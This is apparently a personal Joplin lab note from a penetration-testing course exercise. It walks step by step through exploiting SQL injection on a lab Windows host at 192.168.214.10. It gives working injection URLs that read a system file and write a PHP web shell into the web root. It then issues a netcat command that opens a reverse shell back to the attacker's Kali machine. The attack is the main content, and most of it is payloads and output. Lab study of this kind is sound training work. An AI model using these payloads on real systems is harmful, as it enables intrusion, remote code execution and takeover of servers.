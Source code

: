 9.4.5.11

# 9.4.5.11
## # 9.4.5.11.1. Exploit the SQL injection along with the MariaDB INTO OUTFILE function to obtain code execution.

Read a file using the load_file function
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')`
![fdd3ed88847831685e5eff6f71160cb8.png](:/3dc98927695d4a7ca604ccb57ccc8709)

Use the *INTO OUTFILE* function to create a malicious PHP file in the server's web root.  `http://192.168.214.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
![8e446750bb0b98a0a00b8c62cf3359db.png](:/c7df686013164741938fe9b50102546c)

We had gotten an error above, but backdoor.php was created anyway. Let's try accessing it. It works!
`http://192.168.214.10/backdoor.php?cmd=ipconfig`
![f7d947ebfe112350911c62fd8426d3ae.png](:/01b3b731a88e40b080e70a2e0ac50f59)



## # 9.4.5.11.2. Turn the simple code execution into a full shell.

Open a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

Create a netcat client on the Windows machine
`http://192.168.214.10/backdoor.php?cmd=nc -nv 192.168.119.214 5678 -e cmd.exe`
![67e9141d91909f5fa91cfbcba7fb1351.png](:/299c97882bf24cc88dad131a58475c5b)


Notice we now have a shell on the Kali machine
![55c76338b4508e7d9538e7cb339a27ac.png](:/1eebf611ca5047ed911c7f6320f811aa)



















id: 0a5a335d841f44b0b02167be3d8b564c
parent_id: 33a465e6698d4fac9c4f8149b7813316
created_time: 2020-09-20T13:39:36.285Z
updated_time: 2020-09-28T02:36:29.655Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-20T13:39:36.285Z
user_updated_time: 2020-09-28T02:36:29.655Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1